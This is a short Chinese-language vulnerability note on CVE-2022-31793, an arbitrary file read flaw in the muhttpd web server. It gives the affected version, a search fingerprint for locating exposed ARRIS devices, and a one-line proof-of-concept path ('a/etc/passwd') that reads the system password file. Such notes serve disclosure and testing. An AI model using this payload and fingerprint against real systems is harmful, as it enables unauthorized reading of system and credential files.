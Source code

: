 # muhttpd 任意文件读取漏洞 CVE-2022-31793

# muhttpd 任意文件读取漏洞 CVE-2022-31793

## 漏洞描述

muhttpd（mu-HTTP-deamon）是一个简单但完整的web服务器，用可移植的ANSI C编写。它支持静态页面、CGI脚本、基于MIME类型的处理程序和HTTPS。它在接受任何连接之前放弃特权，并且可以记录接收到的请求。它已经在GNU/Linux、NetBSD、FreeBSD、Mac OS X和Cygwin上进行了测试。它在32位和64位、小端和大端系统上成功运行。

muhttpd 1.1.7之前版本存在安全漏洞。攻击者利用该漏洞读取系统任意文件。

## 漏洞影响

```
muhttpd 1.1.7
```

## 网络测绘

```
"2017 ARRIS Enterprises,"
```

## 漏洞复现

登录页面

![1](/images/202209131051840.png)

验证POC

```
a/etc/passwd 
```

![2](/images/202209131051507.png)

